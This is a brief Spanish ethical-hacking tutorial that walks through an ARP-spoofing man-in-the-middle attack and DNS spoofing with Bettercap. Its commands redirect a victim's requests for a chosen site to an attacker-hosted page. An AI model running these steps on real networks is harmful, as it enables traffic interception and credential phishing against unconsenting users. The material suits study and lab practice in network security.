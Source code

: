 #Vulnerabilidades #HackingEtico 

Este ataque consiste en ubicarnos en la mitad del router y la maquina atacante asi podrian pasar primero los paquetes por nosotros antes que por el router, y asi teniendo control de los paquetes.

## Bettercap:

- Instalamos Bettercap: 
```bash
apt install Bettercap
```

- Para detectar los equipos que se encuentran en nuestra red vamos a ultilizar bettercap y poner el siguiente comando

```bash
net.probe on
```

- Ahora vamos a envenenar el trafico de nuestra maquina victima con ARP, para eso tenemos que saber la IP de esta misma y poner el siguiente comando.

```bash
set arp.spoof.targets #IP
```

- Para confirmar de que si estamos envenenado la maquina con ARP SPOOF. Colocamos el siguiente comando.

```bash
arp.spoof on
```

**Procedemos a realizar un ataque de DNS Spoofing**
- Colocamos el siguiente comando para que la victima al entrar a cierto sitio web se le haga un re direccionamiento a mi localhost donde tengo almacenado un archivo *.html*

```bash
set dns.spoof.domains "URL A HACER SPOOF"
```

- Ahora configuramos para que se muestre nuestra pagina local al entrar a dicho sitio web
```bash
set dns.spoof.address "NUestra IP"
```

- Y para comprobar que todo a funcionado correctamente vamos a colocar el siguiente comando
```bash 
dns.spoof on 
```

